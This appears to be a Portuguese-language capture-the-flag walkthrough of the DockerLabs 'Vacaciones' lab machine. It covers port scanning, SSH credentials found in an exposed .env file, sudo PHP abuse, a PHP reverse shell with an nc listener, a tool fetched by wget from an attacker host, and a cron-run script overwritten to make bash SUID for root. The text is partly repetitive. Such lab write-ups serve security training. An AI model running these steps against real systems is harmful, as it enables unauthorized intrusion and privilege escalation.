

maq.balulero
DockerLabs Vacaciones
Para utilizar esta máquina devemos primeiro baixar os arquivos e assim implantá-la com Docker.
Baixamos o arquivo da página https://dockerlabs.es/
Para implantar o laboratório executamos da seguinte forma, para que também possamos ver que ele nos diz a direção que teremos, bem como o que fazer quando terminarmos.
COLETA DE INFORMAÇÕES
nmap 172.17.0.2 -sS -sV -sC --open -p- -T5 -n -Pn
Verificando as portas podemos ver que temos duas postas abertas a 22 e a 80.

EXPLICAÇÃO DO COMANDO NMAP

PORTAS ABERTA:
. 22/tcp open ssh OpenSSH 8.2p1
. 80/tcp open http Apache httpd 2.4.41
agora vamos no navegador web e digitar o ip da maquina “vitima”. http://172.17.0.2/#skills
possivel usuário balu
vamos acessar o código fonte da página Ctrl+U: view-source:http://172.17.0.2/#skills
vamos entra nesse “script.js”: view-source:http://172.17.0.2/script.js
na imagem abaixo temos uma frase importante, que pode ter uma senha nos arquivo ( “.env “ ou no ”.env_de_baluchingon" ).
INTRUSÃO
Se entrarmos no arquivo
http://172.17.0.2/.env_de_baluchingon
do navegador, veremos o seguinte:
RECOVERY LOGIN
usuário: balu
senha: balubalulerobalulei
Parece que são credenciais para o ssh, porque simplesmente nos conectamos ssh balu@172.17.0.2 e você estará dentro.
ESCALADA DE PRIVILÉGIOS
conseguimos entrar no ssh com o usuário balu
O
usuário
balu
, veremos que podemos executar
php
como o usuário chocolate ao executar
sudo -l
:
DESCRIÇÃO DETALHADA sudo -l
EXEMPLO 1: para entrar no usuário chocolate
depois de pesquisar GTFOBins , vejo que podemos fazer o login no usuário chocolate da seguinte maneira:
CMD="/bin/bash"
sudo -u chocolate php -r "system('$CMD');"
conseguimos fazer o login chocolate
EXEMPLO 2: para entrar no usuário chocolate
uma outra opçao para ser o usuário chocolate é:
baixar uma reverse shell php no https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php#L1. crie um arquivo no nome que voce quiser por exemplo, “nano virus.reverse.php” é so copiar e colar.
configure a reverse shell com seu ip e uma porta da sua preferencia.
na máquina atacante deixe uma escuta com nc -lvnp 4444
agora na maquina vitima é só executar o “sudo -u chocolate /usr/bin/php virus.reverse.php”.
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Agora não teremos sorte com isso sudo -l, mas depois de usar a ferramenta pspy , posso ver que existe um comando que é executado a cada 5 segundos:
wget https://github.com/DominicBreuker/pspy

vamos baixar uma reverse shell php para ser root do site: https://www.revshells.com/
somos root
OUTRO EXEMPLO DE SER ROOT
depois de pesquisar GTFOBins , vejo que podemos fazer o login no usuário chocolate da seguinte maneira:

CMD="/bin/bash"
sudo -u chocolate php -r "system('$CMD');"
conseguimos fazer o login chocolate

Agora não teremos sorte com isso sudo -l, mas depois de usar a ferramenta pspy , posso ver que existe um comando que é executado a cada 5 segundos:
vamos transferir a ferramenta pspy da maquina atacante, para a vitima.
máquina atacante iniciar o servidor python3 -m http.server 8080
máquina vitima: wget http://192.168.0.24:8080/pspy64
Aparentemente, o processo executa de vez em quando o script que está em /opt/script.php, que podemos modificar casualmente, então agora só temos que executar o seguinte:
Depois que os 3 comandos estiver executado,
teremos apenas que esperar cerca de 5 segundos e depois executar, bash -p pois com o novo script que criamos demos permissão SUID para bash:
echo "<?php" > /opt/script.php
echo "exec ('chmod u+s /bin/bash');" >> /opt/script.php
echo "?>" >> /opt/script.php
somos root.
bobmarley